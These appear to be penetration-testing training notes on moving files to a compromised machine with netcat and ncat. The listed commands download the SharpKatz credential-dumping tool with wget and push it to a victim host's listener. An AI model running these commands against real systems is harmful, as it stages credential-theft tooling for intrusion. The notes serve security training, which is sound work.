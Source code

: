 # NetCat
#### NetCat - Compromised Machine - Listening on Port 8000

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat - Compromised Machine - Listening on Port 8000

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
shakir0x00@htb[/htb]$ # Example using Original Netcat
shakir0x00@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
shakir0x00@htb[/htb]$ # Example using Ncat
shakir0x00@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
